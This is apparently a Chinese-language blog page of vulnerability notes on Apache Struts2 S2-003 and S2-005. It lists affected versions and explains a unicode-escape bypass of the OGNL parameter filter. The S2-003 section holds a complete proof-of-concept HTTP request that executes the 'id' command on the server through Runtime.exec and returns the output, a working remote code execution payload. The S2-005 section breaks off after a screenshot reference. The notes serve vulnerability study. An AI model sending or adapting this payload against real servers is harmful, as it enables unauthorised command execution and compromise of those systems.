 
## S2-003 {#s2-003}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.1.8.1


### 漏洞描述 {#漏洞描述}

Struts2 提供了广泛的 OGNL 表达式计算能力，甚至可以将参数名当作表达式来执行，而在
OGNL 中可以通过 # 来访问 struts 的对象，所以内置的 ParametersInterceptor 类会过
滤参数名中包含 # 在内的各种特殊符号来保证安全性

而 S2-003 就是通过 unicode 编码绕过 ParametersInterceptor 类中的正则过滤，用
`\u0023` 或者 `\43` 代替 #

poc:

```nil
GET /s2_war/index.action?(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(bla)(bla)&(%27\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET%27)(kxlzx)(kxlzx)&(%27\u0023mycmd\u003d\%27id\%27%27)(bla)(bla)&(%27\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)%27)(bla)(bla)&(A)((%27\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())%27)(bla))&(B)((%27\u0023myres\u003dnew\40byte[51020]%27)(bla))&(C)((%27\u0023mydat.readFully(\u0023myres)%27)(bla))&(D)((%27\u0023mystr\u003dnew\40java.lang.String(\u0023myres)%27)(bla))&(%27\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()%27)(bla)(bla)&(E)((%27\u0023myout.getWriter().println(\u0023mystr)%27)(bla)) HTTP/1.1
Host: 127.0.0.1:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,pt;q=0.7,da;q=0.6
Cookie: JSESSIONID=FC7DC2221FDB37EAE855C6E6A11E9CC1; _ga=GA1.1.267931382.1545202285
Connection: close
```


## S2-005 {#s2-005}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.1.8.1


### 漏洞描述 {#漏洞描述}

该漏洞是对 S2-003 补丁的绕过，官方对 S2-003 的修复代码如下（左为 struts-2.0.8，右
为 struts-2.0.12）：

{{< figure src="/ox-hugo/2021-11-15_21-00-08_screenshot.png" >}}
